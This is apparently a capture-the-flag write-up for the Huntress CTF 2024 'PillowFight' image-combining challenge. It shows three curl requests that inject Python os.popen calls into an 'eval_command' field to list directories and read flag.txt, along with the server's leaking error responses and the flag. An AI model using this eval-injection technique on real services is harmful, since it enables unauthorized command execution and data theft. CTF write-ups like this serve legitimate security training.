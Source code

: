 # Image Sequence - Chronological Order
Author: @HuskyHacks

PillowFight uses advanced AI/MLRegressionLearning* to combine two images of your choosing

*note to investors this is not techically true at the moment we're using a python library but please give us money and we'll deliver it we promise.
Below is a sequence of PNG images sorted by their timestamps. Each image is embedded in the order it was created.

![start](start.png)  
*Created: Nov 3, 13:21*

![a](a.png)  
*Created: Nov 3, 13:21*

![b](b.png)  
*Created: Nov 3, 13:24*

![flag](flag.png)  
*Created: Nov 3, 13:25*


```bash
A:
curl -X POST "http://challenge.ctf.games:30538/combine" -H  "accept: image/png" -H  "Content-Type: multipart/form-data" -F "image1=@huntressctf2024.png;type=image/png" -F "image2=@huntressctf2024.png;type=image/png" -F "eval_command=convert(img1 + (__import__('os').popen('ls /').read()), 'L')"

{
  "error": "unknown color specifier: 'app\\nbin\\nboot\\ndev\\netc\\nhome\\nlib\\nlib64\\nmedia\\nmnt\\nopt\\nproc\\nroot\\nrun\\nsbin\\nsrv\\nsys\\ntmp\\nusr\\nvar\\n'"
}

B:
curl -X POST "http://challenge.ctf.games:30538/combine" -H  "accept: image/png" -H  "Content-Type: multipart/form-data" -F "image1=@huntressctf2024.png;type=image/png" -F "image2=@huntressctf2024.png;type=image/png" -F "eval_command=convert(img1 + (__import__('os').popen('ls /app').read()), 'L')"

{
  "error": "unknown color specifier: 'dockerfile\\napp.py\\nbliss.png\\nchallenge.yml\\nflag.txt\\nsolve.py\\n'"
}

Flag:
curl -X POST "http://challenge.ctf.games:30538/combine" -H  "accept: image/png" -H  "Content-Type: multipart/form-data" -F "image1=@huntressctf2024.png;type=image/png" -F "image2=@huntressctf2024.png;type=image/png" -F "eval_command=convert(img1 + (__import__('os').popen('cat /app/flag.txt').read()), 'L')"

{
  "error": "unknown color specifier: 'flag{b6b62e6c5cdfda3b3a8b87d90fd48d01}'"
}
```
